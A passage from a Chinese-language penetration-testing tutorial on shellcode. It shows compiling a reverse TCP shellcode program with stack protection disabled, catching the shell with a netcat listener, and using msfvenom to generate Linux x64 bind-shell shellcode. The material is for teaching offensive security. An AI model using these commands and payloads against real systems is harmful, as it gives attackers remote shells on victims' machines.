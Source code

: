 让我们在我们的受害者机器上编译它：

```
$ gcc -fno-stack-protector -z execstack reverse-tcp-shellcode.c -o reverse-tcp-shellcode
```

然后，在我们的攻击者机器上设置一个监听器：

```
$ nc -lp 1234
```

现在，在我们的受害者机器上设置一个监听器：

```
$ ./reverse-tcp-shellcode
```

前面命令的输出显示在以下截图中：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00222.jpeg)

现在，我们连接到了攻击者的机器：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00223.gif)

我们成功了！

# 使用 Metasploit 生成 shellcode

在这里，事情比你想象的简单。我们将使用 Metasploit 为多个平台和多个架构生成 shellcode，并在一个命令中删除坏字符。

我们将使用 `msfvenom` 命令。让我们使用 `msfvenom -h` 显示所有选项：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00224.gif)

让我们使用`msfvenom -l`列出所有的有效载荷-这是一个非常庞大的有效载荷列表：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00225.gif)

这只是列表中的一个小部分。

让我们使用`msfvenom --help-formats`来查看输出格式：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00226.jpeg)

让我们尝试在 Linux 上创建绑定 TCP shellcode：

```
$ msfvenom -a x64 --platform linux -p linux/x64/shell/bind_tcp -b "\x00" -f c
```

这里很简单：`-a`指定架构，然后我们指定平台为 Linux，然后选择我们的有效载荷为`linux/x64/shell/bind_tcp`，然后使用`-b`选项去除不良字符`\x00`，最后我们指定格式为 C。让我们执行一下看看：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00227.jpeg)

现在，将那个 shellcode 复制到我们的 C 代码中：
